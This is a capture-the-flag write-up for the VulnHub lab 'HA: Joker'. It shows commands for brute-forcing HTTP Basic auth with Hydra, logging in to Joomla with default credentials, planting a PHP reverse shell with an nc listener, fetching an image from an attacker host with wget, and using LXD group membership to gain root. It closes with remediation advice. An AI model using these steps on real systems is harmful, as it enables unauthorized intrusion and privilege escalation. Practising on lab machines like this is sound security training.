



# HA: Joker — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | final.txt in /mnt/root/root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-joker,379/) |

## Attack Summary

nmap → dirb secret.txt → port 8080 HTTP Basic brute (Base64 decode: joker:hannah) → Joomla /administrator → PHP reverse shell → LXD group abuse → root

## Methodology

1. Network discovery and port scan
2. Enumerate port 80 for hidden files
3. Brute-force HTTP Basic Auth on port 8080
4. Log in to Joomla admin and inject PHP reverse shell
5. Escalate via LXD group (Alpine container mounts host /)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```

Then scan all ports and services:

```bash
nmap -A 192.168.1.101
```

Open ports: **22** (SSH), **80** (HTTP), **8080** (HTTP — login-protected panel).



---

## Step 2: Enumerate Port 80 — Find secret.txt

```bash
dirb http://192.168.1.101/ -X .txt
```

Found: `http://192.168.1.101/secret.txt`

```bash
wget http://192.168.1.101/secret.txt
cat secret.txt
```

The file contains a username hint pointing to `joker` and a note about port 8080.

Build a quick wordlist from rockyou for brute force:

```bash
head -n 100 rockyou.txt > dict.txt
```


---

## Step 3: Brute-force HTTP Basic Auth (Port 8080)

Using Burp Suite Intruder (Sniper mode) against the Authorization header, or with Hydra:

```bash
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 192.168.1.101 http-get /
```

Credentials recovered: **joker:hannah**

Verify by decoding the Base64 Authorization header from the successful 200 response:

```bash
echo "am9rZXI6aGFubmFo" | base64 -d
# joker:hannah
```


---

## Step 4: Joomla Admin — PHP Reverse Shell

Log in to port 8080 as `joker:hannah`. Navigate to `/administrator` and log in with default credentials **joomla:joomla**.

Go to **Extensions → Templates → beez3 → Customise → index.php**, replace the contents with a PHP reverse shell (edit IP and port to attacker values), and save.

Start the listener:

```bash
nc -lvnp 4444
```

Trigger the shell by loading the Joomla front page. Stabilise:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Check group membership:

```bash
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data),108(lxd)
```

User is in the **lxd** group — privilege escalation vector confirmed.



---

## Step 5: LXD Group Abuse → Root

On the attacker machine:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server 8000
```

On the target (www-data shell):

```bash
wget http://<ATTACKER_IP>:8000/alpine-v3.10-x86_64-20191019_0712.tar.gz
lxc image import ./alpine-v3.10-x86_64-20191019_0712.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Inside the container, the host filesystem is at `/mnt/root`:

```bash
id
# uid=0(root) gid=0(root)
cd /mnt/root/root
ls
cat final.txt
```



---

## Lessons Learned

1. **HTTP Basic Auth** is trivially brute-forced — never use it without rate limiting or account lockout
2. **Default CMS credentials** (joomla:joomla) persist in many deployments; always change them post-install
3. **LXD group membership** grants effective root — treat it as equivalent to root access
4. **PHP template editor** in any CMS (Joomla, WordPress) is a direct RCE vector if admin credentials are compromised

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| HTTP Basic Auth brute-forceable | Add rate limiting; switch to form-based auth with lockout |
| Default Joomla credentials | Change admin password immediately after installation |
| www-data in lxd group | Remove from group; restrict LXD to trusted admin users only |
| PHP template editing enabled | Disable in CMS settings or restrict to admins via file permissions |
